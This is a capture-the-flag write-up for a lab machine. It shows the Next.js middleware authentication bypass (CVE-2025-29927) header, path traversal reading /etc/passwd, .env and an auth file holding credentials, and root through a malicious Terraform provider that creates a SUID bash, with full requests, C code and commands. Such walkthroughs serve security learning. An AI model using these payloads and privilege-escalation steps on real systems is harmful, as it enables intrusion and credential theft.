Previous

Previous was a medium-difficulty Linux box focusing on exploiting CVE-2025-29927, a critical Next.js middleware authentication bypass vulnerability. I bypassed authentication by adding the x-middleware-subrequest header with recursive middleware depth (middleware:middleware:middleware:middleware:middleware) to access the /docs endpoint without credentials. This revealed a download API endpoint vulnerable to path traversal, which I exploited to extract sensitive Next.js files including .env configuration, routes-manifest.json, and the [...nextauth].js authentication handler containing hardcoded credentials (Jeremy:MyNameIsJeremyAndILovePancakes) that granted SSH access.
For privilege escalation, Jeremy had sudo access to Terraform with the -chdir flag restricting operations to /opt/examples. I exploited Terraform's provider system by creating a malicious binary named terraform-provider-examples that copied /bin/bash to /tmp/rootbash with the SUID bit set. Using the TF_CLI_CONFIG_FILE environment variable, I forced Terraform to load a custom .terraformrc configuration file that redirected the provider override path to /tmp where my malicious binary resided. Executing the Terraform command triggered the malicious provider, creating the SUID bash which I executed with -p to obtain root access.
User flag

Initial nmap scan reveals just 2 ports. SSH on 22, and a website on 80.
Investigating The Website

Both buttons lead to a sign-in page, and there's nothing I can do with that right now. I'll look at the headers and the request with BurpSuite.

In this request, I can see a cookie and a header related to next-auth. This is an open-source authentication library for Next.js projects.
I'll look for vulnerabilities affecting next-auth. Right now, the goal is to somehow get past that login page.
https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass
This vulnerability revolves around the middleware functionality in Next.js. It is commonly used to implement access controls, restrict access for unauthorized users, add headers to reuqests and inspect them before passing them on to their intended destination.
The issue is caused by the fact that the x-middleware-subrequest header, used internally to route users based on their access level and other circumstances, can be added by an adversary and used to completely skip middleware checks and potentially access resources they shouldn't.
Bypassing the login page to access protected resources
I can get theNext.JS version with devtools by running next.version. This will grab the version number directly from the variable.

Version 15.2.2 falls into the vulnerable range. I'll use the appropriate payload, which accomodates for recursion and middleware depth.
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

This is the request sent after clicking on the docs button. The authentication has been redirected to a middleware, and if it is successful, the user will be redirected to /docs.
Knowing this is a vulnerable instance, I can reach /docs directly by adding the middleware header to the request.

Now I'm logged in! Notice how the user is displayed as ???, because there is no user to associate with this "session".
LFI in the download parameter

There are 2 endpoints to check out from this point. I'll repeat the middleware addition process again for each of them.
# getting-started
GET /docs/getting-started?section=getting-started HTTP/1.1
Host: previous.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://previous.htb/signin?callbackUrl=http%3A%2F%2Flocalhost%3A3000%2Fdocs
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=50146f861f5c10203b16041c38f246a28554b08890619c0f5a27b8b0d5c6f79f%7Cf8ecdc2d6d7fecd9140215ae102017e9218a3f519385e66e836b947a5bc729bd; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs%2Fapi-reference
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Connection: keep-alive
I removed the api/auth callback portion of the link, but all I got from this page was an error.
On the other hand, the examples endpoint returns valid content and even a download link.
GET /_next/data/-ipsiOtEey-zESpHzrwmc/docs/examples.json?section=examples HTTP/1.1
Host: previous.htb
x-nextjs-data: 1
purpose: prefetch
x-middleware-prefetch: 1
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: */*
Referer: http://previous.htb/docs/examples?section=examples
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=50146f861f5c10203b16041c38f246a28554b08890619c0f5a27b8b0d5c6f79f%7Cf8ecdc2d6d7fecd9140215ae102017e9218a3f519385e66e836b947a5bc729bd; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs%2Fapi-reference
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Connection: keep-alive

This link allows me to download a hello-world.ts file, but the download link itself looks quite vulnerable.
GET /api/download?example=hello-world.ts HTTP/1.1
Host: previous.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://previous.htb/docs/examples?section=examples
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=50146f861f5c10203b16041c38f246a28554b08890619c0f5a27b8b0d5c6f79f%7Cf8ecdc2d6d7fecd9140215ae102017e9218a3f519385e66e836b947a5bc729bd; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fapi%2Fdownload%3Fexample%3Dhello-world.ts
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Connection: keep-alive
Notice how it is looking for the filename as a parameter value. If there is no sanitization, this can be manipulated to retrieve local files like /etc/passwd via path traversal.
/api/download?example=../../../../etc/passwd

LFI confirmed! Now I can pull local files from the box. This opens up a whole new avenue of possible exploitation.
Looking for sensitive Next.JS files on the box
Using the official Next.js documentation, I can find a few files to grab. I will check how many ../ it takes to reach the top-level files.
https://nextjs.org/docs/app/getting-started/project-structure

Package.json required 2 jumps. This file contains a list of packages within a Next.js project. Aside from that, I also found the .env file.

This secret could potentially allow me to forge tokens for the next-auth service... But I've already skipped authentication, so it is of no use for me right now.
I decided to skip ahead and check out the .next directory, particularly the required-server-files.json file, which contains configuration, dependencies, and files required for the server to run.

I can see some very promising files. First, I'll look into the routes-manifest.json file, which is a roadmap for the application's routing system.

A dynamic route in Next.js allows developers to use a [placeholder], which can change based on data provided. Instead of creating many routes like path/A, path/B, a single file can handle all possible variations for that segment.
Page - The file-system path to the route: /api/auth/[...nextauth].
Regex - The regular expression Next.js uses to match incoming URLs like /api/auth/signin or /api/auth/callback.
RouteKeys - Maps the dynamic segment to an internal variable name (e.g., nxtPnextauth).
NamedRegex - A version of the regex that extracts the specific segment values into the params object for use in your code.
In this particular route, I can also see the ... dots within the section. This is a catch-all route, used to allow matching of multiple URL segments at once. This data is passed in as an array.
Even if this is a dynamic route, it will still have a local file on the filesystem. I can grab it with the same path traversal method as earlier. This is important because a file like this could contain secrets or other kinds of passwords.
I will url-encode the [] brackets to avoid issues with the URL.
.next/server/pages/api/auth/%5B...nextauth%5D.js

And look! It did indeed have credentials for the user Jeremy.
Jeremy | MyNameIsJeremyAndILovePancakes
Since I already pretty much own the web app, I'll test these credentials against the box with SSH.

Root Flag

Jeremy can run Terraform as root. This is a tool used for the setup of infrastructure to a desired state, managed by user-created configuration files.
The -chdir flag restricts the working directory to /opt/examples, which is owned by root. I cannot make any changes to that directory and its contents.
Exploiting Terraform's Config File Creation

Here are all the commands I can run with Terraform. As root, I am limited to the apply command locked to the /opt/examples directory. I'll run init to create a configuration file in my current directory.

A .terraformrc file has been created, alongside a terraform.d directory.
# .terraformrc
provider_installation {
dev_overrides {
"previous.htb/terraform/examples" = "/usr/local/go/bin"
}
direct {}
}
A provider is a plugin that interacts with third-party tools and other APIs. By using the dev_overrides, a developer can use local, custom-built provider binaries instead of official versions.
I will take a look into the /usr/local/go/bin directory,

terraform-provider-examples is an ELF binary. Knowing this, I'm pretty confident I'll be able to execute my own binaries if I can force Terraform to use the Jeremy-controlled .terraformrc file.
https://developer.hashicorp.com/terraform/cli/config/environment-variables
The TF_CLI_CONFIG_FILE variable sounds like the exact thing I was missing. The plan is 100% doable now.
Creating a malicious provider
I will create a simple script, its sole purpose being to copy /bin/bash into a different directory, and give it the SUID bit so that it can be run as root.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash");
return 0;
}
I'll compile this file into a bin named terraform-provider-examples, and I'll drop it into the created /tmp/malicious directory. The last part of the binary's name should match the provider binary, as that is what Terraform will execute.
Since the only available provider is previous.htb/terraform/examples, Terraform will execute any terraform-provider-examples binary it finds, making privilege escalation possible.
After that, I will modify the local .terraformrc file so that it points to my malicious binary.
provider_installation {
dev_overrides {
"previous.htb/terraform/examples" = "/tmp/malicious"
}
direct {}
}
After everything is done, I will run the full command that will execute my malicious binary and create a SUID bash in /tmp.
TF_CLI_CONFIG_FILE='/home/jeremy/.terraformrc' sudo /usr/bin/terraform -chdir=/opt/examples apply

Now all that's left is to run the SUID bash, remembering to use the -p flag for preserving the SUID bit. Otherwise, it'll just drop a Jeremy shell, which I don't want.

Rooted!